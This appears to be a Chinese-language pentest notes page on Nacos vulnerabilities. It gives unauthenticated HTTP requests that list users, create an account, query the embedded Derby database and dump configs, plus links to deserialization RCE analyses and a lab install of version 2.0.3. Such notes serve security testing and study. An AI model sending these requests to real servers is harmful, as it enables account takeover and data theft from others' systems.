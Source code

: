 ### 查看用户
```
GET /nacos/v1/auth/users?pageNo=1&pageSize=100
```

### 创建用户
```
POST /nacos/v1/auth/users?username=test&password=test123
```

### unauth
```
/nacos/v1/cs/ops/derby?sql=select+st.tablename+from+sys.systables+st
```

> These endpoints are only valid when using embedded storage (derby DB) so this issue should not affect those installations using external storage (e.g. mysql)

- https://securitylab.github.com/advisories/GHSL-2020-325_326-nacos/
- https://www.cnblogs.com/hack404/p/14697313.html

```
/nacos/v1/cs/configs?dataId=&group=&appName=&config_tags=&pageNo=1&pageSize=100&tenant=&search=accurate
```

### 反序列化漏洞
- https://exp10it.cn/2023/06/nacos-jraft-hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-rce-%E5%88%86%E6%9E%90/
- https://github.com/c0olw/NacosRce/tree/main
- https://y4er.com/posts/nacos-hessian-rce/


## 安装
https://github.com/alibaba/nacos/releases/download/2.0.3/nacos-server-2.0.3.zip
```
unzip -q nacos-server-2.0.3.zip
bin/startup.sh -m standalone
```

![image](https://user-images.githubusercontent.com/30398606/173304250-3c57144d-6b7b-4291-bc31-473c07cf504b.png)


## 参考
- [Nacos结合Spring Cloud Gateway RCE利用](https://xz.aliyun.com/t/11493)
- [Nacos Client Yaml反序列化漏洞分析](https://xz.aliyun.com/t/10355)
- https://github.com/google/tsunami-security-scanner-plugins/issues/118
- https://github.com/google/tsunami-security-scanner-plugins/issues/119
- https://github.com/alibaba/nacos/issues/1105
- https://github.com/alibaba/nacos/releases/tag/2.2.3
- [云原⽣组件Nacos新型红队手法研究](https://mp.weixin.qq.com/s/Jwwd5ailKNhwR57ACXB1kQ)
